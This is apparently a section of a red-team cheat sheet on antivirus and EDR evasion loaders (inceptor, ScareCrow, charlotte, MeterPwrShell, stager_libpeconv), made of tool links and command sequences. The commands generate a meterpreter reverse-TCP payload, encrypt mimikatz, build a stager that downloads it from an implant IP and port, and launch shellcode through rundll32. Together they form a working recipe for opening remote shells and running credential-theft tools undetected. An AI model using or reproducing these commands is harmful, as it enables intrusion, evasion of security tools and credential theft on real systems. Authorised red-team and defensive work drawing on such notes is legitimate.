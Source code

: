 

### inceptor

* [https://klezvirus.github.io/RedTeaming/AV_Evasion/CodeExeNewDotNet/](https://klezvirus.github.io/RedTeaming/AV_Evasion/CodeExeNewDotNet/)
* [https://github.com/klezVirus/inceptor](https://github.com/klezVirus/inceptor)



### ScareCrow

* [https://github.com/optiv/ScareCrow](https://github.com/optiv/ScareCrow)
* [https://www.grahamhelton.com/blog/scarecrow/](https://www.grahamhelton.com/blog/scarecrow/)
* [https://adamsvoboda.net/evading-edr-with-scarecrow/](https://adamsvoboda.net/evading-edr-with-scarecrow/)



### charlotte

* [https://github.com/9emin1/charlotte](https://github.com/9emin1/charlotte)
* [https://github.com/cepxeo/dll4shell](https://github.com/cepxeo/dll4shell)

```
$ sudo apt install 'mingw-w64*' -y
$ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.13.37 LPORT=1337 -f raw > beacon.bin
$ python charlotte.py
Cmd > rundll32.exe charlotte.dll, <XOR_KEY>
```



### MeterPwrShell

* [https://github.com/GetRektBoy724/MeterPwrShell/releases](https://github.com/GetRektBoy724/MeterPwrShell/releases)
* [https://raikia.com/tool-powershell-encoder/](https://raikia.com/tool-powershell-encoder/)

```
$ sudo ./MeterPwrShell2Kalix64 -c noaptupdate
```



### stager_libpeconv

- [https://github.com/tothi/stager_libpeconv](https://github.com/tothi/stager_libpeconv)
- [https://github.com/hasherezade/libpeconv](https://github.com/hasherezade/libpeconv)

```
$ git clone --recurse-submodules https://github.com/tothi/stager_libpeconv && cd stager_libpeconv
$ openssl enc -rc4 -in mimikatz.exe -K `echo -n '1234567890123456' | xxd -p` -nosalt -out mimikatz.rc4
$ make stager IMPLANT_IP=10.10.13.37 IMPLANT_PORT=1337 RC4_KEY=1234567890123456
$ ./socket_binary_server.py mimikatz.rc4 10.10.13.37 1337
Cmd > dist\stager.exe
```
